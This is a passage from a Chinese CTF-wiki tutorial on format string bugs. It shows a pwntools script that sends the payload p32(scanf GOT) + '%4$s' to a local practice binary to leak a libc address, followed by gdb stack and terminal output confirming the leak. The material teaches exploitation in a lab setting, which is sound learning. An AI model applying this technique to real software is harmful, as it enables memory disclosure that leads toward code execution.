 ```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()

```

其中，我们使用gdb.attach(sh)来进行调试。当我们运行到第二个printf函数的时候(记得下断点)，可以看到我们的第四个参数确实指向我们的scanf的地址，这里输出

```python
 → 0xf7615670 <printf+0>       call   0xf76ebb09 <__x86.get_pc_thunk.ax>
   ↳  0xf76ebb09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf76ebb0c <__x86.get_pc_thunk.ax+3> ret
      0xf76ebb0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf76ebb10 <__x86.get_pc_thunk.dx+3> ret
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffbbf8dc', 'l8']
8
0xffbbf8dc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffbbf8e0│+0x04: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e4│+0x08: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e8│+0x0c: 0x000000c2
0xffbbf8ec│+0x10: 0xf765c6bb  →  <handle_intel+107> add esp, 0x10
0xffbbf8f0│+0x14: 0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp	 ← $eax
0xffbbf8f4│+0x18: "%4$s"
0xffbbf8f8│+0x1c: 0x00000000

```

同时，在我们运行的terminal下

```python
➜  leakmemory git:(master) ✗ python exploit.py
[+] Starting local process './leakmemory': pid 65363
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0x804a014
\x14\xa0\x0%4$s
[*] running in new terminal: /usr/bin/gdb -q  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory" 65363
[+] Waiting for debugger: Done
0xf76280c0
[*] Switching to interactive mode
[*] Process './leakmemory' stopped with exit code 0 (pid 65363)
[*] Got EOF while reading in interactiv
```
